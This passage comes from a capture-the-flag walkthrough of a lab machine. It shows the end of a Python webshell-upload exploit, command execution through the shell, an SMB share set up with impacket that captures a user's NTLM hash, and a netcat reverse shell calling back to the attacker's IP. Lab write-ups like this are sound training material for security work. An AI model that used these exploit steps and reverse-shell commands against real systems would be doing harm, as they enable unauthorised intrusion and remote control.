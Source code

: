 ```py
  29   │         }
  30   │ payload_data = {'pupload':'upload'}
  31   │ 
  32   │ response = requests.post(url=upload_url, files=data, data=payload_data, verify=False)
  33   │ 
  34   │ if "Warning" not in response.text:
  35   │     print("File successfully uploaded, go to:\n{}/upload/{}.php?cmd=whoami to test if it worked".format(args.url,args.name))
  36   │ else:
  37   │     print("Something went wrong!! :C")
  38   │ 
  39   │ 
───────┴───────────────────────────────────────────────────────────────────────────
```
Doing so, we can upload a `php webshell` and obtain RCE:
```shell
❯ python3 Exploits/upload_webshell.py -u http://10.10.10.198:8080 --name webshell
File successfully uploaded, go to:
http://10.10.10.198:8080/upload/webshell.php?cmd=whoami to test if it worked
❯ curl "http://10.10.10.198:8080/upload/webshell.php?cmd=whoami"
PNG

buff\shaun
```

### RCE to Reverse shell
Now, we can try to obtain a reverse shell using `nc.exe`. To do so, we will need to upload the binary:
```shell
❯ sudo smbserver.py smbFolder $(pwd) -smb2support
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.198,49705)
[*] AUTHENTICATE_MESSAGE (BUFF\shaun,BUFF)
[*] User BUFF\shaun authenticated successfully
[*] shaun::BUFF:aaaaaaaaaaaaaaaa:5f819dc41d6770610f307fa62f8c0745:010100000000000080cc5d7fe683d801b33020f358087cc6000000000100100068007500710048006700530068007000030010006800750071004800670053006800700002001000550075006c004e006b006f007000730004001000550075006c004e006b006f00700073000700080080cc5d7fe683d801060004000200000008003000300000000000000000000000002000003a087f26cfffb9410fedc4130c698f7913fe32dfb3e71db209a83440bc2642de0a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e0036000000000000000000
```
Now we can start a reverse shell as:
```shell
# Listening terminal
❯ nc -nlvp 3333
# Triggering terminal
❯ curl 'http://10.10.10.198:8080/upload/webshell.php?cmd=\\10.10.14.6\smbFolder\nc.exe+10.10.14.6+3333+-e+cmd'
# Listening terminal
C:\xampp\htdocs\gym\upload>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

```